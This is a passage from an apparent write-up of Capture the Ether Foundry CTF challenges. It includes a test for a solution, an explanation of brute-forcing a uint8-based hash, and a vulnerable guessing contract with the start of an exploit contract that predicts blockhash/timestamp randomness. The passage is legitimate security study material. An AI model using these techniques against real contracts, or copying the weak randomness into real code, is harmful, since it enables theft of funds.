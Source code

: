 ```
    }

    function testFindSecretNumber() public {
        // Put solution here
        uint8 secretNumber = exploitContract.Exploiter();
        _checkSolved(secretNumber);
    }

    function _checkSolved(uint8 _secretNumber) internal {
        assertTrue(guessTheSecretNumber.guess{value: 1 ether}(_secretNumber), "Wrong Number");
        assertTrue(guessTheSecretNumber.isComplete(), "Challenge Incomplete");
    }

    receive() external payable {}
}
```

### Exploit
The exploit here is pretty straightforward. In the victim contract, `guess` takes a `uint8` argument and generates a hash based on that value, and sends 2 Ether to the msg.sender if that hash matches the stored hash. Since the hash is based on a `uint8` type, and the max value for `uint8` is merely 255, we can easily recreate the hashing step in the attacking contract and brute-force the correct value that matches the `answerHash`. The `Exploiter` function just has to run a loop and create hashes from 0 to 255 until it finds the matching hash from the correct number.

## Capture the Ether Foundry (RareSkills): Guess the New Number
Link: https://github.com/RareSkills/capture-the-ether-foundry/tree/master/GuessNewNumber

### Contracts
- `src/Week8-9/GuessNewNumber.sol`
```
contract GuessNewNumber {
    constructor() payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable returns (bool pass) {
        require(msg.value == 1 ether);
        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));

        if (n == answer) {
            (bool ok,) = msg.sender.call{value: 2 ether}("");
            require(ok, "Fail to send to msg.sender");
            pass = true;
        }
    }
}

contract ExploitContract {
    GuessNewNumber public guessNewNumber;
    uint8 public answer;

    function Exploit() public returns (uint8) {
        //if this gets called in the same block number and timestamp as `guess`, then the answers will be the same
```